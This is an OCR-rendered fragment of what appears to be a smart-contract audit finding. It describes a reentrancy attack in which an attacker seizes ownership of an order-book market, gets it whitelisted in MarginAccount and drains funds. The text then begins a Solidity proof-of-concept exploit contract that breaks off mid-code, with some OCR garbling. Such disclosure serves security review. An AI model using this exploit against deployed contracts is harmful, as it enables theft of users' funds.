 7. The market contract whose code was updated by attacker gets added to whitelist of MarginAccount. 

8. Attacker can now simply create credits for any account in MarginAccount and drain all funds. 

**Proof of Concept: **Add this contract and test case in test/RouterTest.t.sol. 

• RouterRentrancyExploiter.sol:

contract RouterRentrancyExploiter \{

address public victimMarket; 

function setVictimMarket\(address \_victim\) public \{

victimMarket = \_victim; 

\}

function approve\(address, uint256\) DRAFT

external returns \(bool\) \{

OrderBook market = OrderBook\(victimMarket\); 

// set market owner to address\(this\)

market.initialize\(\{

\_owner: address\(this\), 

\_type: IOrderBook.OrderBookType.NATIVE\_IN\_BASE, 

\_baseAssetAddress: address\(0\), 

\_baseAssetDecimals: 0, 

\_quoteAssetAddress: address\(0\), 

\_quoteAssetDecimals: 0, 

\_marginAccountAddress: address\(0\), 

\_sizePrecision: uint96\(0\), 

\_pricePrecision: 0, 

\_tickSize: 0, 

\_minSize: 0, 

\_maxSize: 0, 

\_takerFeeBps: 2\_00, 

// 2%

\_makerFeeBps: 1\_00, 

// 1%

\_kuruAmmVault: address\(0\), 

\_kuruAmmSpread: 10, 

\_\_trustedForwarder: address\(0\)
